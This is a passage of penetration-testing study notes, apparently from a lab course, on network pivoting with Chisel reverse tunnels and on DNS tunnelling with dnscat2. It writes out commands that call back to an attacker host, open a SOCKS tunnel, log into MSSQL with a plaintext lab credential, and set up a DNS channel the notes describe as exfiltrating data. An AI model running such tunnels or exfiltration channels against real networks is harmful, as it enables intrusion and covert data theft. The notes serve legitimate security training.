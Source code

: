 >[!code]- Set up the Chisel server<br>`chisel server --port 8080 --reverse`
>- `--port 8080` listen on port 8080
>- `--reverse` allow reverse port forwarding

>[!code]- Set up the Chisel client<br>`client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &`
>- `192.168.118.4:8080` connect to the Chisel server socket on Kali
>- `R:socks` create a reverse (_R_) SOCKS (_socks_) tunnel (which is bound to port 1080 by default)
>- `> /dev/null 2>&1 &` redirect shell output to force the process to run in the background and free up our shell

>[!code]- SSH via the Chisel tunnel<br>`ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215`
>- `-o ProxyCommand` accepts a shell command that opens a proxy-enabled channel
>	- Ncat supports proxying whereas nc does not (may need to install ncat)
>	- 
###### Reverse port forward

```mermaid
sequenceDiagram
	participant K as KALI<br/>192.168.118.4
	participant C as CONFLUENCE01<br>192.168.50.63
	critical Set up Chisel
		Note over K: chisel server --port 8080<br>--reverse
		Note over C: chisel client 192.168.118.4:8080<br>R:1433:127.0.0.1:1433
		C-->>K: (Chisel tunnel)<br>port 8080 #8592; C
		activate K
		K-->>K: Setup listener on<br>127.0.0.1:1433
		deactivate K
		activate K
		K-->>C: (Chisel tunnel)<br>port 1433 #8594; C port 1433
		deactivate K
	end
	critical SSH via Chisel tunnel
		Note over K: impacket-mssql<br>svc_mssql:'Service1'@127.0.0.1<br>-windows-auth
		K->>C: (Chisel tunnel)<br>port 1433 K #8594; C port 1433
		activate C
	end
```

### DNS Tunnelling
#### dnscat2

>[!info]- Info - Network Setup
>![Pasted image 20240520044457](Pasted%20image%2020240520044457.png)

>[!info]- Info - What is dnscat2?
>_dnscat2_ can exfiltrate data with DNS subdomain queries and infiltrate data with TXT (and other) records.

```mermaid
sequenceDiagram
	participant F as FELINEAUTHORITY<br>192.168.50.64<br>(Under our control)
	participant M as MULTISERVER03<br>192.168.50.63
	participant P as PGDATABASE01<br>10.4.50.215
	participant H as HRSHARES<br>172.16.50.217
	critical Setup dnscat2
		Note over F: dnscat2-server feline.corp
		Note over P: ./dnscat feline.corp
		P-->>F: (dns tunnel)<br>port 53 #8592; P, via M
	end
	critical Setup port forward
		Note over F: listen 127.0.0.1:4455<br>172.16.2.11:445
			F-->>F: port 4455
		activate F
			F-->>P: (dns tunnel)<br>F #8594; P
		deactivate F
```